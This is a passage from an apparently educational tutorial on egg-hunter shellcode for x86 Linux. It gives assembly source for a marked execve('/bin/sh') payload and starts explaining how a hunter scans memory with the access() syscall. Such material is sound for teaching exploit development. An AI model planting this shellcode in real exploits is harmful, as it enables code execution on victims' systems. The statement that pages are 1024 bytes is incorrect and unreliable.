``` {.asm}
;;; huntable_shell.asm
SECTION .text           ; Code section
             global _start  ; Make label available to linker
_start:
    db 0x50,0x90,0x50,0x90  ; egg target
    db 0x50,0x90,0x50,0x90
    xor ecx,ecx
    mul ecx         ;0's edx and and eax
    push eax        ;\0
    push 0x68732f6e     ;n/sh
    push 0x69622f2f     ;//bi 


    mov ebx,esp         ; Param #1 - "/bin/sh" is *esp
    mov al,0xb          ; System call number for execve
    int 0x80        ; Interrupt 80 hex - invoke system call

```

The reason it must apear in duplicate is that the egg hunt shell code
must also have a copy of the egg because it will be using it in a
comparison. Thus, to differentiate the egg hunter from its pray, the
pray has the egg twice.

### How to Hunt and Egg

With the egg figured out and our huntable shell code, let's focus our
attention on the egg unter. For this, we need two processes:

1.  We need to be able to iterate through the entire memory address
    space, from 0x0000000 to 0xFFFFFFFFF, FAST!

2.  We need to be able to see if an address can be dereferenced without
    causing a segmentation fault.

For (1), we need to think about how memory is aligned. Each memory
region is broken into pages, and pages are bounded by 1024 bytes. This
means that we jump by 1024 bytes for each address if the address is not
referenced.

For (2), this is a bit more tricky. We can't just dereference the
address ourselves because that will cause a `segfault`, but we might be
able to ask the operating system to check. The `access()` system call is
exactly the right tool for this job.

Normally, `access` will check if you have access to the specified file.
Here' is the manual description:

``` {.example}
SYNOPSIS
       #include <unistd.h>

       int access(const char *pathname, int mode);

DESCRIPTION
       access() checks whether the calling process can access the file pathname.  
       If pathname is a symbolic link, it is dereferenced.
```
